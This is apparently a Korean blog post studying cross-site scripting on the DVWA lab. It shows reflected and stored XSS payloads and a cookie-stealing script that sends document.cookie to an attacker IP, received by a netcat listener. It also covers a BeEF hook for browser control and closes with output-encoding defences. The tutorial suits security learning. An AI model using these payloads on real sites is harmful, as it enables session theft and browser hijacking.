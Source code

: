 ```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### ***Reflected XSS (반사형)***

Reflected XSS는 사용자의 입력이 서버를 거쳐 즉시 응답 페이지에 반영될 때 발생한다.  
DVWA의 `XSS (Reflected)` 페이지는 `name` 파라미터의 값을 별도의 검증 없이 HTML 응답에 삽입한다.

다음과 같은 요청을 전송하면

```
GET /vulnerabilities/xss_r/?name=<script>alert('Reflected%20XSS')</script> HTTP/1.1
Host: dvwa.local
```

서버는 입력값을 그대로 포함한 응답을 반환한다.

```html
<h1>Hello <script>alert('Reflected XSS')</script>!</h1>
```

브라우저는 이 HTML을 파싱하면서 `<script>` 태그를 실행하고 경고창을 표시한다.  
이 공격은 URL에 의존하므로, 공격자는 피싱 링크를 통해 피해자를 유도할 수 있다.

---

#### ***Stored XSS (저장형)***

Stored XSS는 공격 페이로드가 서버의 데이터베이스나 파일 시스템에 영구적으로 저장된 후,  
해당 페이지를 방문하는 모든 사용자에게 전달될 때 발생한다.

DVWA의 `XSS (Stored)` 페이지는 방명록 메시지를 데이터베이스에 저장한 뒤,  
모든 방문자에게 동일한 HTML로 출력한다.

공격자가 다음 메시지를 등록하면,

```html
<script>alert('Stored XSS')</script>
```

서버는 이를 저장하고, 이후 페이지 접근 시 다음과 같은 구조로 응답한다.

```html
<div class="guestbook-post">
  <script>alert('Stored XSS')</script>
</div>
```

이 경우, 해당 페이지를 방문하는 모든 사용자의 브라우저에서 스크립트가 실행된다.  
공격 범위가 Reflected XSS보다 훨씬 넓다는 점에서 위험성이 크다.

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

   ***1. 공격자 리스너 준비***
   공격자는 Netcat을 사용해 HTTP 요청을 수신하는 리스너를 실행한다.  
   ```bash
   sudo nc -lvnp 80
   ```

이 명령은 80번 포트에서 들어오는 연결을 대기합니다.

   ***2. 쿠키 탈취 페이로드 작성***  
   다음 스크립트는 현재 도메인의 쿠키를 읽어 공격자 서버로 전송한다.  
   ```javascript
   <script>
     document.location = 'http://192.9.200.12/?cookie=' + btoa(document.cookie);
   </script>
   ```  
   - `document.cookie`: 현재 세션의 모든 쿠키를 반환  
   - `btoa()`: 특수문자로 인한 URL 파싱 오류를 방지하기 위해 Base64 인코딩 수행  

   ***3. 페이로드 주입 및 실행***  
   위 스크립트를 Stored XSS 취약점에 삽입하면, 피해자가 페이지를 방문할 때마다 브라우저가 자동으로 다음 요청을 보낸다.
   ```
   GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz HTTP/1.1
   Host: 192.9.200.12
   User-Agent: Mozilla/5.0 ...
   ```

   ***4. 쿠키 복원***  
   공격자는 수신된 Base64 문자열을 디코딩해 실제 쿠키 값을 확인할 수 있다.  
   ```bash
   echo "c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz" | base64 -d
   # 출력: security=low; PHPSESSID=abc123
   ```  
   이 값을 자신의 브라우저에 주입하면 피해자의 세션으로 로그인할 수 있다.

---

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

1. ***BeEF 실행***  
   공격자는 다음 명령으로 BeEF를 시작한다.  
   ```bash
   sudo beef-xss
   ```  
   BeEF는 기본적으로 `http://192.9.200.12:3000/ui/panel`에서 관리자 인터페이스를 제공하며,  
   Hook 스크립트 URL은 다음과 같다.
   ```html
   <script src="http://192.9.200.12:3000/hook.js"></script>
   ```

2. ***Hook 스크립트 주입***  
   이 스크립트를 Stored XSS 취약점에 삽입하면
   방문자의 브라우저는 자동으로 `hook.js`를 로드하고 BeEF 서버에 연결된다.

3. ***브라우저 제어***  
   BeEF 관리자 패널의 `Online Browsers` 탭에서는 연결된 브라우저의 다음 정보를 확인할 수 있다.
   - IP 주소  
   - 운영체제  
   - 브라우저 종류 및 버전  

   공격자는 `Commands` 탭에서 다양한 모듈을 실행할 수 있다.
   - **Get Cookies**: `document.cookie` 값을 수집  
   - **Redirect Browser**: 특정 URL로 강제 이동  
   - **Create Alert Dialog**: 사용자에게 경고창 표시  

   이러한 기능은 추가적인 사회공학 공격이나 정보 수집에 활용된다.

---

### 5. 방어 방안: 출력 인코딩

XSS를 방어하는 가장 효과적인 방법은 **모든 사용자 입력을 출력 시 인코딩**하는 것이다.  
브라우저가 입력값을 HTML 태그나 스크립트로 해석하지 못하도록,  
특수문자를 안전한 HTML 엔터티로 변환해야 한다.

예를 들어, 다음 문자는 다음과 같이 인코딩되어야 한다.
- `<` → `&lt;`  
- `>` → `&gt;`  
- `&` → `&amp;`  
- `"` → `&quot;`  
- `'` → `&#039;`  

PHP에서는 `htmlspecialchars()` 함수를 사용해 이를 처리할 수 있다.
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```  

이렇게 인코딩된 출력은 브라우저에서 **단순 텍스트로만 표시**되며,  
스크립트 실행이나 태그 해석이 발생하지 않는다.

<hr class="short-rule">